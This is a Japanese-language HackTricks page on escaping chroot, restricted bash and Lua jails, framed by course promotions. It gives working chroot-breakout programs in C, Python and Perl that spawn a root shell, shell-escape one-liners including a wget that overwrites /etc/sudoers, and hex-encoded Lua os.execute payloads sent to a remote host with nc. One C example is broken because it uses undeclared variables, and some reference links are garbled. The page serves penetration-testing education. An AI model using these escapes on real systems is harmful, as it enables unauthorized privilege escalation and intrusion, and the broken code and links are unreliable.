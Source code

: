 # ジェイルからの脱出

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **ハッキングトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>
{% endhint %}

## **GTFOBins**

**"Shell"プロパティを持つバイナリを実行できるかどうか、[**https://gtfobins.github.io/**](https://gtfobins.github.io)で検索してください。**

## Chrootの脱出

[wikipedia](https://en.wikipedia.org/wiki/Chroot#Limitations)から：chrootメカニズムは、**特権**（**root**）**ユーザーによる意図的な改ざんに対して防御することを目的としていません**。ほとんどのシステムでは、chrootコンテキストは正しくスタックされず、**十分な特権を持つchrootされたプログラムは、脱出するために二度目のchrootを実行することができます**。\
通常、脱出するにはchroot内でrootである必要があります。

{% hint style="success" %}
**ツール** [**chw00t**](https://github.com/earthquake/chw00t)は、以下のシナリオを悪用して`chroot`から脱出するために作成されました。
{% endhint %}

### Root + CWD

{% hint style="warning" %}
chroot内で**root**である場合、**別のchrootを作成することで脱出できます**。これは、2つのchrootが共存できないため（Linuxでは）、フォルダーを作成し、その新しいフォルダー上で**新しいchrootを作成すると、**その外にいるあなたは**新しいchrootの外にいることになります**。したがって、ファイルシステム内にいることになります。

これは通常、chrootが作業ディレクトリを指定されたものに移動しないために発生します。したがって、chrootを作成できますが、その外にいることができます。
{% endhint %}

通常、chrootジェイル内には`chroot`バイナリは見つかりませんが、**バイナリをコンパイル、アップロード、実行することができます**：

<details>

<summary>C: break_chroot.c</summary>
```c
#include <sys/stat.h>
#include <stdlib.h>
#include <unistd.h>

//gcc break_chroot.c -o break_chroot

int main(void)
{
mkdir("chroot-dir", 0755);
chroot("chroot-dir");
for(int i = 0; i < 1000; i++) {
chdir("..");
}
chroot(".");
system("/bin/bash");
}
```
</details>

<details>

<summary>Python</summary>  
Python（パイソン）は、広く使用されている高水準プログラミング言語です。シンプルで読みやすい構文を持ち、さまざまな用途に適しています。
```python
#!/usr/bin/python
import os
os.mkdir("chroot-dir")
os.chroot("chroot-dir")
for i in range(1000):
os.chdir("..")
os.chroot(".")
os.system("/bin/bash")
```
</details>

<details>

<summary>Perl</summary>パール
```perl
#!/usr/bin/perl
mkdir "chroot-dir";
chroot "chroot-dir";
foreach my $i (0..1000) {
chdir ".."
}
chroot ".";
system("/bin/bash");
```
</details>

### Root + Saved fd

{% hint style="warning" %}
これは前のケースに似ていますが、この場合、**攻撃者は現在のディレクトリへのファイルディスクリプタを保存し**、その後**新しいフォルダにchrootを作成します**。最後に、彼は**chrootの外でそのFDにアクセスできるため**、それにアクセスし、**脱出**します。
{% endhint %}

<details>

<summary>C: break_chroot.c</summary>
```c
#include <sys/stat.h>
#include <stdlib.h>
#include <unistd.h>

//gcc break_chroot.c -o break_chroot

int main(void)
{
mkdir("tmpdir", 0755);
dir_fd = open(".", O_RDONLY);
if(chroot("tmpdir")){
perror("chroot");
}
fchdir(dir_fd);
close(dir_fd);
for(x = 0; x < 1000; x++) chdir("..");
chroot(".");
}
```
</details>

### Root + Fork + UDS (Unix Domain Sockets)

{% hint style="warning" %}
FDはUnixドメインソケットを介して渡すことができるので：

* 子プロセスを作成する（フォーク）
* 親と子が通信できるようにUDSを作成する
* 子プロセスで異なるフォルダにchrootを実行する
* 親プロセスで、新しい子プロセスのchrootの外にあるフォルダのFDを作成する
* UDSを使用してそのFDを子プロセスに渡す
* 子プロセスはそのFDにchdirし、chrootの外にいるため、監獄から脱出する
{% endhint %}

### Root + Mount

{% hint style="warning" %}
* ルートデバイス（/）をchroot内のディレクトリにマウントする
* そのディレクトリにchrootする

これはLinuxで可能です
{% endhint %}

### Root + /proc

{% hint style="warning" %}
* procfsをchroot内のディレクトリにマウントする（まだであれば）
* 異なるroot/cwdエントリを持つpidを探す、例えば：/proc/1/root
* そのエントリにchrootする
{% endhint %}

### Root(?) + Fork

{% hint style="warning" %}
* フォーク（子プロセス）を作成し、FSのより深い異なるフォルダにchrootし、その上でCDする
* 親プロセスから、子プロセスがいるフォルダを子のchrootの前のフォルダに移動する
* この子プロセスはchrootの外にいることになる
{% endhint %}

### ptrace

{% hint style="warning" %}
* 以前はユーザーが自分のプロセスを自分のプロセスからデバッグできましたが... これはデフォルトではもはや可能ではありません
* それでも、可能であれば、プロセスにptraceし、その中でシェルコードを実行することができます（[この例を参照](linux-capabilities.md#cap\_sys\_ptrace)）。
{% endhint %}

## Bash Jails

### Enumeration

監獄に関する情報を取得する：
```bash
echo $SHELL
echo $PATH
env
export
pwd
```
### PATHを変更する

PATH環境変数を変更できるか確認してください。
```bash
echo $PATH #See the path of the executables that you can use
PATH=/usr/local/sbin:/usr/sbin:/sbin:/usr/local/bin:/usr/bin:/bin #Try to change the path
echo /home/* #List directory
```
### vimを使用する
```bash
:set shell=/bin/sh
:shell
```
### スクリプトを作成

_/bin/bash_ を内容とする実行可能ファイルを作成できるか確認してください。
```bash
red /bin/bash
> w wx/path #Write /bin/bash in a writable and executable path
```
### SSH経由でbashを取得する

ssh経由でアクセスしている場合、このトリックを使用してbashシェルを実行できます：
```bash
ssh -t user@<IP> bash # Get directly an interactive shell
ssh user@<IP> -t "bash --noprofile -i"
ssh user@<IP> -t "() { :; }; sh -i "
```
### 宣言
```bash
declare -n PATH; export PATH=/bin;bash -i

BASH_CMDS[shell]=/bin/bash;shell -i
```
### Wget

例えば、sudoersファイルを上書きすることができます。
```bash
wget http://127.0.0.1:8080/sudoers -O /etc/sudoers
```
### その他のトリック

[**https://fireshellsecurity.team/restricted-linux-shell-escaping-techniques/**](https://fireshellsecurity.team/restricted-linux-shell-escaping-techniques/)\
[https://pen-testing.sans.org/blog/2012/0**b**6/06/escaping-restricted-linux-shells](https://pen-testing.sans.org/blog/2012/06/06/escaping-restricted-linux-shells\*\*]\(https://pen-testing.sans.org/blog/2012/06/06/escaping-restricted-linux-shells)\
[https://gtfobins.github.io](https://gtfobins.github.io/\*\*]\(https/gtfobins.github.io)\
**興味深いページもあります:**

{% content-ref url="../bypass-bash-restrictions/" %}
[bypass-bash-restrictions](../bypass-bash-restrictions/)
{% endcontent-ref %}

## Python ジェイル

次のページでは、python ジェイルからの脱出に関するトリックがあります:

{% content-ref url="../../generic-methodologies-and-resources/python/bypass-python-sandboxes/" %}
[bypass-python-sandboxes](../../generic-methodologies-and-resources/python/bypass-python-sandboxes/)
{% endcontent-ref %}

## Lua ジェイル

このページでは、lua 内でアクセスできるグローバル関数を見つけることができます: [https://www.gammon.com.au/scripts/doc.php?general=lua\_base](https://www.gammon.com.au/scripts/doc.php?general=lua\_base)

**コマンド実行を伴う Eval:**
```bash
load(string.char(0x6f,0x73,0x2e,0x65,0x78,0x65,0x63,0x75,0x74,0x65,0x28,0x27,0x6c,0x73,0x27,0x29))()
```
いくつかのトリック **ドットを使わずにライブラリの関数を呼び出す**:
```bash
print(string.char(0x41, 0x42))
print(rawget(string, "char")(0x41, 0x42))
```
ライブラリの関数を列挙する:
```bash
for k,v in pairs(string) do print(k,v) end
```
注意してください。**異なるlua環境で前のワンライナーを実行するたびに、関数の順序が変わります**。したがって、特定の関数を実行する必要がある場合は、異なるlua環境をロードし、leライブラリの最初の関数を呼び出すことでブルートフォース攻撃を行うことができます。
```bash
#In this scenario you could BF the victim that is generating a new lua environment
#for every interaction with the following line and when you are lucky
#the char function is going to be executed
for k,chr in pairs(string) do print(chr(0x6f,0x73,0x2e,0x65,0x78)) end

#This attack from a CTF can be used to try to chain the function execute from "os" library
#and "char" from string library, and the use both to execute a command
for i in seq 1000; do echo "for k1,chr in pairs(string) do for k2,exec in pairs(os) do print(k1,k2) print(exec(chr(0x6f,0x73,0x2e,0x65,0x78,0x65,0x63,0x75,0x74,0x65,0x28,0x27,0x6c,0x73,0x27,0x29))) break end break end" | nc 10.10.10.10 10006 | grep -A5 "Code: char"; done
```
**インタラクティブなluaシェルを取得する**: 制限されたluaシェル内にいる場合は、次のように呼び出すことで新しいluaシェル（できれば無制限）を取得できます:
```bash
debug.debug()
```
## 参考文献

* [https://www.youtube.com/watch?v=UO618TeyCWo](https://www.youtube.com/watch?v=UO618TeyCWo) (スライド: [https://deepsec.net/docs/Slides/2015/Chw00t\_How\_To\_Break%20Out\_from\_Various\_Chroot\_Solutions\_-\_Bucsay\_Balazs.pdf](https://deepsec.net/docs/Slides/2015/Chw00t\_How\_To\_Break%20Out\_from\_Various\_Chroot\_Solutions\_-\_Bucsay\_Balazs.pdf))

{% hint style="success" %}
AWSハッキングを学び、実践する:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCPハッキングを学び、実践する: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **ハッキングのトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを送信してください。**

</details>
{% endhint %}
